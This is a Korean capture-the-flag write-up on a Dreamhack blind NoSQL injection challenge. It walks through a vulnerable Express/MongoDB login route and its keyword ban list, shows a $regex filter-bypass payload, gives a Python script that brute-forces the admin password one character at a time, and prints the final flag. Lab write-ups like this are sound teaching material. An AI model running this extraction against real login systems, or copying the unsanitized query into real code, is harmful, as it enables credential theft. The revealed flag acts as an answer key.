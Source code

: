 문제는 **이 문제는 데이터베이스에 저장된 플래그를 획득하는 문제입니다. 플래그는 admin 계정의 비밀번호 입니다. 플래그의 형식은 DH{...} 입니다. {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}** 이다.

먼저 코드를 보면 다음과 같다.

```js
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}

app.get('/login', function(req, res) {
    if(filter(req.query)){
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});

app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');
```

이번에는 파이썬이 아니라 자바스크립트 파일이다.

먼저 path 에 따라 나누면 다음과 같다.

(1) <img src="2.jpg">

(2) <img src="3.jpg">

1. /
위의 그림처럼 **/login?uid=guest&upw=guest** 를 화면에 출력한다.
2. /login
위의 그림은 **/login?uid=guest&upw=guest** 를 적은 상황인데, 이렇게 **uid를 화면에 출력** 한다.

/login 의 작동방식을 간단히 보면

1. request query 를 **filter 함수**에 넣는다.
2. filter 함수에서는 request query 를 JSON으로 만들고 **admin, dh, admi 가 들어갔는지 확인**해서, 있다면 filter 처리한다.
3. 만약 filter 함수를 잘 통과했다면, user 콜렉션에서 **입력한 uid, upw 가 있는지 확인**해서 **있다면 uid를 화면에 출력**한다.

즉, 위에 있던 그림은 uid, upw가 guest 인 것을 찾았기 때문에 uid인 **guest 를 출력**한다.

```js
if (err){
	res.send('err');
}else if(result){
	res.send(result['uid']);
}else{
	res.send('undefined');
}
```

위의 코드에 의해 admin **/login?uid=admin&upw=flag 값** 을 적으면 화면에 **admin**이 나올 것이다.  

테스트하기 위해 **/login?uid[$regex]=^a&upw[$regex]=^D** 를 적었다.  

<img src="5.jpg">  

위와 같이 **admin** 이 나왔다.  

또한 코드에서 힌트를 보면 flag는 **32자리**이고 **숫자, 영문자**가 들어간다.

즉, **Blind NoSQL Injection** 을 통해 한 자리씩 찾으면 된다.

처음에 burf suite 를 사용해서 찾으려 했지만, 브루트포스를 하는 데 생각보다 오래 걸려서 python으로 하나씩 찾았다.

```python
import requests
import string

# 영문자 + 숫자
tc = string.ascii_letters + string.digits

# flag : 현재까지 찾은 flag
flag = ""

# flag는 32자리 이므로 32번 반복
for i in range(32):

    # 가능한 문자를 하나씩 가져옴
    for j in tc:
        
        # uid[$regex]=^a : uid가 a로 시작함(필터 우회)
        # upw[$regex]=D.{" + flag + j : D.(아무 문자, H를 의미){" + flag(현재까지 알아낸 flag 일부) + j(현재 확인하는 문자)
        response = requests.get("http://host1.dreamhack.games:21779/login?uid[$regex]=^a&upw[$regex]=D.{" + flag + j)

        # 디버깅 용도
        # print(f'j : {j}, response : {response.text}')

        # 만약 응답 결과가 admin 이면, 한 글자를 찾았다는 뜻이므로 flag에 그 문자를 넣고 다음 문자를 알기 위해 break
        if response.text == "admin":
            flag += j
            print(f'현재 flag : DH{{{flag}}}')
            break

# flag 출력
print(f'최종 flag : DH{{{flag}}}')
```

<img src="4.jpg">  

위의 코드를 실행하면, 다음과 같이 flag 가 나온다.

따라서 정답은 **DH{89e50fa6fafe2604e33c0ba05843d3df}** 이다.